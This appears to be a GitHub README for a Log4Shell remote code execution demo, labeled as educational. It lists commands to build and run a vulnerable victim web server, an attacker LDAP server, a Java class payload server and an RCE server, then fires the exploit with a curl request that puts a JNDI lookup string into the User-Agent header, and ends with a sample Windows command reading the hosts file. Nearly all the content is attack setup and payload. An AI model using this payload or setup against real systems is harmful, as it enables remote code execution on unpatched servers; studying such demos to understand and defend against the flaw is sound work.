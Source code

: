 # log4Shell
log4Shell vulnerability RCE sample

**NOTE**

This repo is only for educational purposes only

---


## Run victim web server (app)
```
gradlew build
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build\libs\app-0.0.1.jar
```

## Run attacker malicious ldap server (ldap)
```
gradlew build
java -jar build\libs\ldap-1.0.0.jar http://localhost:8081/#Payload 636
```

## Run attacker java class payload server
```
gradlew build
java -jar build\libs\payload-1.0.0.jar
```

## Run attacker rce server (rce)
```
gradlew build
java -jar build\libs\rce-1.0.0.jar

```

## Do the attacker
```
curl http://localhost:8080/ -H 'User-Agent:${jndi:ldap://0.0.0.0:636/a}'
```

## Sample command on windows
```
cmd /C more c:\windows\system32\drivers\etc\hosts
```

